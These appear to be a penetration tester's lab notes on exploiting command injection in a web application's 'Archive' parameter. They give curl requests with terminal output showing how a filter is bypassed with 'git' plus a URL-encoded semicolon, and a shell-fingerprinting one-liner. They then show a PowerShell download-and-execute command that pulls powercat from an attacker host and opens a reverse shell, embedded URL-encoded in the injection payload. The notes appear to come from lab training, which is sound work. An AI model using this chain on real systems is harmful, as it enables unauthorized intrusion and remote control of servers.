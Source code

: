 
[Command Injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/command-injection)
**START SMALL FIRST**
move from there.

You can see us trying to submit a git clone repository
![[Pasted image 20230929103823.png]]
use burp to see the archive request **Note: see how it uses URL encoding on it**
After seeing the Archive parameter, use curl to provide cmds to the parameter
![[Pasted image 20230929103922.png]]

It detects a cmd injection
┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=ipconfig' http://192.168.231.189:8000/archive
Command Injection detected. Aborting...%!(EXTRA string=ipconfig)      

IT IS ACCEPTING GIT
──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=**git**' http://192.168.231.189:8000/archive
An error occured with execution: exit status 1 and usage: git [--version] [--help] [-C <path>] [-c <name>=<value>]
           [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
           [-p | --paginate | -P | --no-pager] [--no-replace-objects] [--bare]
           [--git-dir=<path>] [--work-tree=<path>] [--namespace=<name>]
           [--super-prefix=<path>] [--config-env=<name>=<envvar>]
           <command> [<args>]

┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=git **version**' http://192.168.231.189:8000/archive
Repository successfully cloned with command: git version and output: git version 2.36.1.windows.1

**USE %3B AS A DELIMITER FOR MULTIPLE COMMANDS**
┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=git**%3Bi**pconfig' http://192.168.231.189:8000/archive

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 192.168.231.189
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.231.254

This cmd is used to get  identify whether is a cmd oor powershell
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

^1cb993


After URL encode it will look like this:             LEAVE THE PARENTHESIS ON IT!
┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.231.189:8000/archive
Repository successfully cloned with command: git;(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell and output: usage: git [--version] [--help] [-C <path>] [-c <name>=<value>]
           [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
           [-p | --paginate | -P | --no-pager] [--no-replace-objects] [--bare]
           [--git-dir=<path>] [--work-tree=<path>] [--namespace=<name>]
           [--super-prefix=<path>] [--config-env=<name>=<envvar>]
           <command> [<args>]

In this instance, it shows that is a powershell
See 'git help git' for an overview of the system.
PowerShell


**INSTALL POWERCAT (POWERSHELL+NETCAT FOR KALI)**

sudo apt install powercat

┌──(hollacosta㉿kali1)-[/usr/share/powershell-empire]
└─$ locate powercat                     FIND LOCATION OF .ps1 FILE
/usr/share/powershell-empire/data/module_source/management/powercat.ps1
/usr/share/powershell-empire/lib/modules/powershell/management/powercat.py
/usr/share/powershell-empire/lib/modules/powershell/management/__pycache__/powercat.cpython-39.pyc
sr/share/powershell-empire]
└─$ cp /usr/share/powershell-empire/data/module_source/management/powercat.ps1 /home/hollacosta 


**Command to download PowerCat and execute a reverse shell**
```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```
Downloading Powercat and creating a reverse shell via Command Injection
string is your ifconfig ip address

┌──(hollacosta㉿kali1)-[~]
└─$ curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.181%2Fpowercat.ps1%22)%3Bpowercat%20-c%20**192.168.119.3**%20-p%204444%20-e%20powershell' http://192.168.231.189:8000/archive



